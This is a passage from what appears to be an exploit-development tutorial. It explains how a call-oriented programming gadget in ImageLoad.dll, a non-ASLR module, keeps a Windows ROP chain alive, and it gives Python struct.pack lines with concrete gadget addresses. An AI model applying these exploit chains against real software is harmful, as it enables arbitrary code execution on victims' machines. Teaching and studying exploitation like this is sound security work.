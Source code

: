 ```python
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
```

Although the gadget is very nice, as we just need to add to EDX until the value of 0x180 is placed in it, the gadget doesn't end with a `ret` - meaning it will not return back to the stack and pick up the next gadget.

Instead, this gadget performs a `call edi` instruction. This, at first glance - will completely kill our ROP chain, as execution will not redirect back to the stack. However, there is a way around this - with a technique called Call-oriented Programming (COP).

Essentially, since we know that EDI will be called, we could `pop` a ROP gadget, which would perform an `add esp, X ; ret`. Why `add, esp X` you may ask?

As you may, or may not, know - when a `call` instruction is executed - it pushes its return address onto the stack. This is done so the caller knows where to return after it is done executing. However, we can just execute an `add esp X` gadget to jump over this return address and back into our ROP chain. However, there is one more thing that we need to take into account from our gadget, and that is `push edx`.

This will push the EDX register onto the stack _before_ the `call` instruction pushes its return address onto the stack - meaning a total of 0x8 (2 DWORDS) bytes will be pushed onto the stack. To compensate for this, we will load an `add esp, 0x8 ; ret`. 

Here is how our routine of gadgets will look, in totality.

```python
crash += struct.pack('<L', 0x100103ff)    # pop edi ; ret: ImageLoad.dll (non-ASLR enabled module) (Compensation for COP gadget add edx, 0x20)
crash += struct.pack('<L', 0x1001c31e)    # add esp, 0x8 ; ret: ImageLoadl.dll (non-ASLR enabled module) (Returns to stack after COP gadget)
crash += struct.pack('<L', 0x10022c4c)    # xor edx, edx ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
```
